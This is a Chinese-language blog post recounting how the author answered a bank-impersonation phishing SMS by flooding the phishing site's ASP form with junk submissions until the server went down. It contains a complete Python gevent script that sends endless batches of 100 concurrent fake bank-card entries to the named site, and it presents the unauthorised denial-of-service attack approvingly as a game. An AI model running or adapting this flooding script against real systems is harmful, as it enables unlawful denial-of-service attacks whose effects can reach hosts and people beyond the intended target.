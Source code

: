 ```yaml
--- 
layout: post
title: 记一次 DoS 诈骗网站的经历
categories: 安全 编程
--- 
```


题海中激战，正当不亦乐乎时，手机响了。低头一看，是 95599 的短信：

> 尊敬的农行用户，您的账户积分累计现可兑换价值 1024 元现金大礼包！请手机登陆 [wap.abchyd.com](http://wap.abchyd.com) 进行领取！【农业银行】

1024 元？哼！这个数还挺整，但一看就是诈骗短信：哪有银行的域名长得和天书一样？更何况，我又没有农行的账户。

正待删除时，一个念头划过脑海，指尖悬停在屏幕上方。

突然想起昨天在 Freebuf 上看到的一篇文章，说是一个黑帽把臭名昭著的“10086 诈骗”给调戏了一番，在其数据库里填满了垃圾。Freebuf 上许多黑技术我从来都是可望而不可即，唯独这个比较简单——不就是写个脚本嘛，几分钟的事。既然他骗人骗到我这里来了，何不好好调戏一下呢？

果断打开电脑，打开 Chrome，输入网址，映入眼帘的是一个表单（网站已被黑掉因此就没有图了，好吧我错了），要求用户填写 银行卡、密码、手机号还有一个逼格很高的验证码。

F12 分析，发现对各个字段的校验仅仅局限于长度的检查，连格式检查都没有。至于验证码，随便填写四个数字就可以通过了（真是弱爆了，好吗！）。表单提交后跳转到一个有菊花加载圈的页面——说是“稍等，切勿关闭页面”，但其实这个页面并不会跳转，也不会有其他的操作，只有那个菊花一直在转。扫一眼地址栏，发现是`asp`结尾——这又给了我不小的鼓励（这里并没有黑微软的意思， ASP 是十年前的产物，放在现在可以说是弱的不行了）。

该怎么调戏呢？一个想法飞快地在脑海中产生——对了，就用高并发的垃圾数据拖爆它的数据库吧。这类钓鱼网站通常都是 IIS 6.0 + ASP + SQL SERVER，并且还是单机服务器，并发度一高机器很容易就垮了。

简单地谢了一个脚本：

```python
#! /usr/bin/python

import gevent.monkey
gevent.monkey.patch_all()
import gevent
import urllib2, urllib
from uuid import uuid1

def fuck():
    id = str(uuid1())[:16]
    print 'fucking', id
    try:
        urllib2.urlopen('http://www.abchyd.com/add_1.asp', urllib.urlencode({
            'logonCardNum': id,
            'netType': '111111',
            'tel': '12345678900',
            'randomId': '1234'
        }))
    except:
        pass

    print 'fucking', id, 'ok'

while True:
    gevent.joinall([gevent.spawn(fuck) for _ in range(100)])

```

这里用 `gevent` 将 Socket 由阻塞型改装为协程型，以提高请求的并发度。

接着，关掉所有的图形界面，只开一个终端（为了节省内存），运行 `./fuckit.py`。哈哈哈，受死吧！

用平板再次打开该网址（电脑已经跑不起浏览器了），可以发现网站已经明显慢了下来，时不时还会有 500 错误。

两个小时后。

当我再次访问网站时，它已经完全当机了。用`nmap`扫了一遍，也没有端口活着了。一台邪恶的服务器就这样被干掉了。

但我知道，这样的服务器，在世界上还存在着许多许多。曾经有段时间，不断遇到域名为 www.10086xxx.com 的诈骗网站。常常是一个域名被封了，另一个域名便冒出来，可见诈骗者拥有海量的资源。

这次的攻击只是一次游戏，一次尝试，得以成功只是因为对方太弱了。

真正的网络攻防战，远不止如此。